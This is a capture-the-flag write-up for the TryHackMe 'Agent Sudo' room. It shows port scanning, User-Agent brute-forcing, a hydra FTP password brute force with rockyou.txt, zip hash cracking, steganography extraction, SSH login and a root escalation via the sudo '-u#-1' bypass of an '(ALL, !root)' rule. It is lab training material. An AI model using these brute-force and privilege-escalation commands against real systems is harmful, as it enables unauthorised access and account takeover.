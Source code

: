# Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.
[Join the room here](https://tryhackme.com/room/agentsudoctf)
## Nmap Scan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
There are three ports open FTP on port 21, SSH on port 22 and web on port 80

## Enumeration
Agents have codename which is a single alphabet, Using Burp Suite I was able to bruteforce user-agent and the user-agent was C
It redirected me to http://<MACHINE_IP>/agent_C_attention.php
There I found a little text message
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
And we found the user `chris`

## Exploitation
Bruteforcing using hydra `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<MACHINE_IP>`
> username - chris

> password - XXXXXXX

Now we know the password, we can login through FTP
Using an ls command we can see all the files in the FTP server
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Dumped all the files using `mget *`
I used `binwalk -e cutie.png` to extract all hidden files, Found a 8702.zip and it is encrypted
I am using `zip2john 8702.zip > Output.txt` to extract the hash fro ZIP file for john to crack and `john Output.txt` to crack the hash and we got the password alien

Extracted 8702.zip using `7z e 8702.zip` using the password we previously cracked, The ZIP consisted a TXT file `To_agentR.txt`
Opening the `To_agentR.txt` has the following message
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
There is a little encoded string Its was Base64 encoded, It decodes to `Area51`
Using the `steghide — extract -sf cute-alien.jpg` to find hidden files in the other jpg it was asking for a passphrase and I used the previous decoded string, After extracting we got a file `message.txt`
```
Hi james,

Glad you find this message. Your login password is XXXXXXXXXXXX 

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Awesome! We got SSH credentials. Let us login using the credentials
> username - james

> password - XXXXXXXXXXXX

Got our first flag `user_flag.txt`
## Priveleges Escalation 

running `sudo -l` to know the priveleges of the current logged in user
```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching about `(ALL, !root) /bin/bash` I got to know that its a vulnerability that allows root access 
```
vulnerability is relevant in a specific configuration in the Sudo security policy,
called “sudoers”, which helps ensure that privileges are limited only to specific users.
(source:whitesourcesoftware)
```
Got the root shell using `sudo -u#-1 /bin/bash` and we got our root flag in `/root/root.txt`
